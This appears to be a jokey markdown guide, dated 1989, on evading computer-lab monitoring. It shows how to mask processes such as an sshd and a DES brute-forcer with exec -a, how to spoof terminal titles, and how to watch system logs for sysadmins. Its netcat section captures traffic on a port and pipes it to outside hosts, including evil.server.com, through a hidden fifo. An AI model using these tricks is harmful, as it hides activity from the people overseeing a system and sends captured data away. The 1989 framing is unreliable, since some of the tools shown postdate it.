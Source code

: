 # The MIT Computer Lab Survival Guide (1989)
## Or: How to Look Productive While Building Revolutionary Crypto

### The Problem
- Lab monitors checking what you're doing
- CPU time quotas (THIS MONTH: 10 HOURS MAX)
- Sysadmins running `who`, `ps aux`, `lastlog`
- Your advisor wondering why you're always "compiling"

### The Classic Tricks

#### 1. The Innocent Process Names
```bash
# What it looks like to sysadmin
$ ps aux | grep hans
hans  1337  0.0  0.1  2048  512 pts/0  S   02:30  0:00 vi thesis.tex
hans  1338  0.0  0.1  2048  512 pts/1  S   02:31  0:00 cc -O2 homework.c
hans  1339  0.0  0.1  2048  512 pts/2  S   02:32  0:00 latex report.tex

# What's actually running
$ # That "vi thesis.tex"? It's actually:
$ exec -a "vi thesis.tex" ./sshd

$ # That innocent compiler? 
$ exec -a "cc -O2 homework.c" ./brute_force_des

$ # That LaTeX process?
$ exec -a "latex report.tex" ./irc_client
```

#### 2. The Terminal Multiplexer Magic
```bash
# Set your terminal title to something boring
$ echo -e "\033]0;Editing: thesis_chapter_3.tex\007"

# But actually running:
$ screen -S "homework"
# Ctrl-A C (new window)
$ ./build_crypto_tool.sh
# Ctrl-A C (new window)  
$ nc crypto.underground.net 6667
# Ctrl-A C (new window)
$ tail -f /var/log/messages | grep -v hans  # watching for sysadmins
```

#### 3. The Netcat Symphony
```bash
# The "Innocent" Data Pipeline
$ # Looks like data processing
$ cat /usr/share/dict/words | grep "^a" | wc -l > analysis.txt

# The Real Pipeline (hidden in another screen)
$ nc -l -p 31337 | tee captured.dat | \
  sed 's/password/XXXXX/g' | \
  nc darkside.mit.edu 1337 | \
  xor_cipher > ~/thesis/appendix_b.dat

# Even better: The Double Reverse
$ mkfifo /tmp/.boring_pipe
$ cat /tmp/.boring_pipe | nc evil.server.com 22 &
```